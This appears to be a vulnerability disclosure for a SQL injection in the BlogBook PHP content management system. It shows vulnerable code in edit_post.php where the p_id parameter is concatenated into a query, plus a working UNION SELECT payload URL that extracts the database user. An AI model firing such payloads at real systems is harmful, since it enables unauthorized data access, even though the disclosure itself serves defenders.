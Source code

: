 # BlogBook /admin/posts.php edit_post p_id Parameter SQL Injection

**Exploit Title: BlogBook /admin/posts.php edit_post p_id Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows, Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A SQL injection vulnerability exists in the [edit_post.php] file of the BlogBook application. User-supplied input from the p_id GET parameter is directly concatenated into SQL query strings without adequate sanitization. This affects both an UPDATE query designed to increment post view counts and a SELECT query used to fetch post data for display. Consequently, an unauthenticated remote attacker can inject and execute arbitrary SQL commands, potentially leading to unauthorized data access, modification, or further compromise of the database.

## Vulnerability Point

`blogbook-main/admin/includes/edit_post.php:8`

## Vulnerable Parameter

`p_id`

## Vulnerable Code

```php
if(isset($_GET['p_id'])){
    $edit_post_id= $_GET['p_id'];
}


$query="SELECT * FROM posts WHERE post_id={$edit_post_id}";
                            $select_posts_by_id=mysqli_query($connection,$query);   
                            while($row=mysqli_fetch_assoc($select_posts_by_id)){
                               global $cat_id;
                                 $post_id=$row['post_id'];
                                 $post_author=$row['post_author'];
                                 $post_title=$row['post_title'];
                                 $post_category_id=$row['post_category_id'];
                                 $post_image=$row['post_image'];
                                 $post_tags=$row['post_tags'];
                                 $post_content=$row['post_content'];
                                 $post_comment_count=$row['post_comment_count'];
                                 $post_date=$row['post_date'];
                                 $post_status=$row['post_status'];
                            }
```
## Payload

`http://localhost/admin/posts.php?source=edit_post&p_id=-1%20UNION%20SELECT%20NULL,NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL%20--`

![add_post sqli](./assets/edit_post_sqli.png)
